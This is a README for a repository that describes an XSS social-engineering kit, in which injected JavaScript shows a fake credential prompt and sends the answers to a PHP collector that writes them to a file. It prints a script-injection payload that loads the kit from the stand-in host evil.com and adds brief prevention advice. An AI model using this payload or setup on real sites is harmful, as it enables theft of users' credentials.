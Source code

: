 # xss (Cross Site Social-engineering)

simple implementasion of social engineering from xss
--for education purpose only--

# about this repository
This repository will tell you how bad xss it is

# what is xss ?
Cross-site scripting is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. --Wikipedia--

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. --OWASP--

# content in this repository
x.js
simple javascript payload to trigger user to give them credential's and send them to x.php

x.php
simple php script to receive credential's from x.js and write it to creds.txt

creds.txt
file that store credential's from x.php and x.js

# how it's work ?
```x.js```, ```x.php```, and ```creds.txt``` stored at evil.com then attacker use xss payload
to your website that vulnerable from xss --> ```<script src=https://evil.com/x.js></script>```

if xss reflected, attacker usually use shortlink to avoid suspicion and make the user of your website click into it
if xss stored, attacker usually just wait for the payload triggered from another user

and this will happen
![popup](https://raw.githubusercontent.com/laztname/xss/master/the.gif)

if the user of your website doesn't aware about security then they just believe it and don't know that was a scam accidentally they send their credential to the evil.com

# how prevent from xss ?
make sure filter any input from your website and don't forget to strip any html tags

# is xss just pop-up only ?
NO, attacker can use any javascript payload to use your website that vulnerable from xss
for any variation payload see it here http://www.xss-payloads.com/payloads-list.html?a#category=all

